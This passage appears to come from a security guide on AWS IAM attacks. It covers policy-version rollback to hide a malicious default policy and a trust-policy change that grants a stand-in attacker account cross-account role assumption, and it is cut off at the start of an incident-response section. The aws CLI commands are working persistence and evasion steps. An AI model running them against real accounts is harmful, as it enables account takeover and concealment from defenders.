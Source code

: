 ## Advanced Evasion Techniques

### Policy Version Rollback

Sophisticated attackers may create multiple policy versions to establish persistence:

```bash
# Create benign version first
aws iam create-policy-version \
    --policy-arn arn:aws:iam::ACCOUNT-ID:policy/TargetPolicy \
    --policy-document file://benign-policy.json

# Create malicious version
aws iam create-policy-version \
    --policy-arn arn:aws:iam::ACCOUNT-ID:policy/TargetPolicy \
    --policy-document file://malicious-policy.json \
    --set-as-default

# Later, rollback to appear innocent
aws iam set-default-policy-version \
    --policy-arn arn:aws:iam::ACCOUNT-ID:policy/TargetPolicy \
    --version-id v1
```

### Cross-Account Privilege Escalation

Leverage cross-account roles for lateral movement:

```bash
# Modify role trust policy to allow cross-account access
aws iam update-assume-role-policy \
    --role-name TargetRole \
    --policy-document '{
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::ATTACKER-ACCOUNT:root"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    }'
```

## Incident Response Procedures

### Immediate Response Actions

1. **Isolate the Compromised Identity**: Attach deny-all inline policies
    
